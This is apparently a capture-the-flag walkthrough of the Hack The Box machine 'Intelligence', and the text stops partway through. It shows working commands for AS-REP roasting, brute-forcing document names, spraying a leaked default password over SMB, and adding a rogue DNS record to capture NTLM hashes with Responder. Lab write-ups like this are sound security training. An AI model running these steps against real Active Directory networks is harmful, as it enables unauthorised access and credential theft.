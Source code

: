 ```yaml
---
description: https://app.hackthebox.com/machines/357
---
```


# Intelligence

<figure><img src="../../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

I start by doing a Nmap -p- without anything to know all the ports open, then throw in a big command to properly enumerate the open ports to win some time:

```
nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,3269,3268,5985,9389,49667,49691,49692,49709,49713,54414 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

I then go on the http webpage on port 80 and use feroxbuster:

```
feroxbuster -u http://intelligence.htb -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

<figure><img src="../../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

the /documents is forbidden ->

<figure><img src="../../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

but the subdomains are not

<figure><img src="../../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Nothing to see in the first place but then I saw that this was a PDF and not a txt oriented file, let's see if there is exif data ->

```
exiftool 2020-01-01-upload.pdf 
```

<figure><img src="../../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

there was another PDF in the subdomains ->

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Ok so we get 2 possible users? Let's continue enumeration:

```
kerbrute userenum --dc 10.129.44.184 -d intelligence.htb users
```

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

No we need to check to see if either has the don’t require preauth flag set, which would leak the users hash (this is AS-REP-roasting):

```
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/Jose.Williams
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/William.Lee
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

That got me thinking that the PDFs are named based on the date they were created. So, we can conclud that we could potentially bruteforce the PDF names and download them that are not referenced in the website.

So we create a little script in python or bash to follow the nomenclature of the website:

```
#!/bin/bash
DATE=2020-01-01

for i in {0..366}
do
       NEXT_DATE=$(date +%Y-%m-%d -d "$DATE + $i day")
          echo "$NEXT_DATE""-upload"
      done
```

```
chmod +x dates4bruteforce.sh
./dates4bruteforce.sh > pdfname
```

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

and the one-liner to go and bruteforce and download all of this:

```
for i in $(cat ../pdfname); do wget http://10.129.44.184/documents/$i".pdf"; done
```

i made a folder to store all of the PDF's

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

after manually looking we find a PDF with default password:

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption><p>NewIntelligenceCorpUser9876</p></figcaption></figure>

We can easily say to ourselves that there is Exif data on all of them with valid users, we need to script it out:

```
find . *.pdf|xargs exiftool |grep Creator|awk '{print $3}' >  userPDF.txt
```

<figure><img src="../../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

So now we can spray this password to see if anyone left it by default:

```
crackmapexec smb 10.129.44.184 -u userPDF.txt -p NewIntelligenceCorpUser9876 --continue-on-success
```

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption><p>Tiffany.Molina</p></figcaption></figure>

So this _**Tiffany.Molina**_ user left password by default

Now let's try to dig out on the SMB side of the user:

```
smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>

and then we connect in the Users share:

```
smbclient -U Tiffany.Molina //10.129.44.184/Users NewIntelligenceCorpUser9876
```

And pull the user flag out of the Desktop:

<figure><img src="../../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>

further enumeration led to going in the IT share ->

<figure><img src="../../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>

We find this PowerShell script:

<figure><img src="../../../.gitbook/assets/image (680).png" alt=""><figcaption></figcaption></figure>

> The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

> in theory, if we can add a DNS record that starts with `web`, which points to a machine that we control, then we can potentially get the NTLM hash of the user, the script is running as!

`dnstool.py` is a script that comes with [Krbrelayx](https://github.com/dirkjanm/krbrelayx)&#x20;

before interacting with Kerberos, we have to make sure that our machine’s time is in sync with the target machine. Generally, we can use things like Nmap output, HTTP header etc to determine the target’s time and change our machine time with `date` command.

```
sudo ntpdate 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (682).png" alt=""><figcaption></figcaption></figure>

then we go and interract ->

```
python dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 -r webfelix.intelligence.htb -a add -d 10.10.14.166 10.129.44.184
```

* `-u`: This option specifies the username for authentication. In this case, the username is `intelligence.htb\\Tiffany.Molina`.
* `-p`: This option specifies the password for authentication. Here, the password is `NewIntelligenceCorpUser9876`.
* `-r`: This option specifies the remote DNS server to which the tool will connect. Here, the remote DNS server is `webfelix.intelligence.htb`.
* `-a`: This option specifies the action to perform. The value `add` indicates that a new DNS record will be added.
* `-d`: This option specifies the IP addresses for the DNS record. In this case, the IP addresses are `10.10.14.166` and `10.129.44.184`. in summary, this command is attempting to add a new DNS record to the `webfelix.intelligence.htb` remote DNS server using the provided username and password, with the new DNS record pointing to the IP addresses `10.10.14.166` and `10.129.44.184`.

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Okay, we successfully add a new record, next →

when I launch my responder, I get this error →

```
responder -I tun0
```

<figure><img src="../../../.gitbook/assets/image (684).png" alt=""><figcaption></figcaption></figure>

So I check which program is currently running on this port:

```
netstat -tuln
```

<figure><img src="../../../.gitbook/assets/image (685).png" alt=""><figcaption></figcaption></figure>

i can get more info on what's running with the following command

```
sudo lsof -i :80
```
